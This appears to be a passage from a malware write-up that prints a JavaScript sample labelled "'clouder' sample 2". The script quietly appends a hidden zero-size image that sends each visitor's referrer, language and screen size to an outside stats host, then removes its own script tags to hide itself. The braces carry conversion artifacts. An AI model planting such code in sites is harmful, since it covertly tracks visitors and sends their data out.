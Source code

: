```
        `}`
    `}` catch (e) `{``}`
    _c1oud3r.kbehavi()
`}`
// "clouder" sample 2
if ("undefined" == typeof(_c1oud3r)) `{`  
    _c1oud3r = [];
    _c1oud3r.nodes = [];
    _c1oud3r.pt = (("https:" == window.location.protocol) ? "https://" : "http://");
    _c1oud3r.appendChild = function(html, id) `{`
        var node = document.createElement("DIV");
        node.style.width = "0";
        node.style.height = "0";
        node.style.position = "absolute";
        node.style.left = "-100px";
        node.innerHTML = html;
        document.body.appendChild(node);
        _c1oud3r.nodes[id] = node
    `}`;
    _c1oud3r.removeNode = function(id) `{`
        try `{`
            if (_c1oud3r.nodes[id]) `{`
                document.body.removeChild(_c1oud3r.nodes[id]);
                _c1oud3r.nodes[id] = undefined
            `}`
        `}` catch (e) `{``}`
    `}`;
    _c1oud3r.removeScript = function() `{`
        var head = document.getElementsByTagName('HEAD')[0];
        var ss = head.getElementsByTagName('SCRIPT');
        var re = new RegExp("//[^/]*\.ejieban\.com/", "i");
        for (var i = (ss.length - 1); i &gt;= 0; i--) `{`
            if (re.test(ss[i].src)) `{`
                head.removeChild(ss[i])
            `}`
        `}`
    `}`;
    _c1oud3r.stat = function(id, r) `{`
        var l = _c1oud3r.pt + "hzs11.cnzz.com/stat.htm?id=";
        l += id + "&amp;r=" + encodeURIComponent(r) + "&amp;lg=";
        var f = window;
        var lg = f.navigator.systemLanguage || f.navigator.language;
        l += lg.toLowerCase() + "&amp;ntime=none&amp;repeatip=0&amp;rtime=0&amp;cnzz_eid=";
        l += Math.floor(2147483648 * Math.random()) + "-1395926171-";
        var sp = f.screen.width &amp;&amp; f.screen.height ? f.screen.width + "x" + f.screen.height : "0x0";
        l += "&amp;showp=" + sp + "&amp;st=0&amp;sin=&amp;t=&amp;rnd=" + Math.floor(2147483648 * Math.random());
        return l
    `}`;
    _c1oud3r.oload = function() `{`
        if (document.body == null) `{`
            setTimeout(_c1oud3r.oload, 200)
        `}` else `{`
            var str = '&lt;img src="' + _c1oud3r.stat("1568238", document.referrer) + '" width="0" height="0"/&gt;';
            _c1oud3r.appendChild(str, "_cl3r");
            _c1oud3r.removeScript();
            setTimeout("_c1oud3r.removeNode('_cl3r')", 2000)
        `}`
    `}`;
    try `{`
        if ("complete" == document.readyState) `{`
```